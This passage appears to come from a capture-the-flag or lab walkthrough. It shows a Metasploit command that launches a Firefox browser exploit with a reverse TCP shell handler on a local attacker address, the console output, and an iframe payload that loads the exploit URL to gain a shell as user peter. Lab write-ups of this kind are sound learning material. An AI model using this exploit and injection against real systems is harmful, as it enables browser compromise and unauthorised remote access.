 There is a metasploit exploit for this, so launch metasploit and set up it as shown below:

```bash
root@kali:~$ msfconsole -qx "use exploit/multi/browser/firefox_proto_crmfrequest; \
dquote> set srvhost 192.168.110.150; \          
dquote> set srvport 8888; \                                
dquote> set lhost 192.168.110.150; \                       
dquote> run"                                                    
[*] No payload configured, defaulting to generic/shell_reverse_tcp  
srvhost => 192.168.110.150                                       
srvport => 8888                                             
lhost => 192.168.110.150                                      
[*] Exploit running as background job 0.                   
[*] Exploit completed, but no session was created.              
                                                                     
[*] Started reverse TCP handler on 192.168.110.150:4444          
[*] Using URL: http://192.168.110.150:8888/Xqndzuz                
[*] Server started. 
```

As we can see this created a URL containing the malicious instruction, I tried to create the payload with other HTML tags but it didn't work except with iframe tag.

```bash
<iframe src="http://192.168.110.150:8888/rC9mcJIc" ></iframe>
```
![](/assets/images/breach2/screenshot-7.png)

Following the same idea we wait a minutes and get a shell with privileges of the user peter.
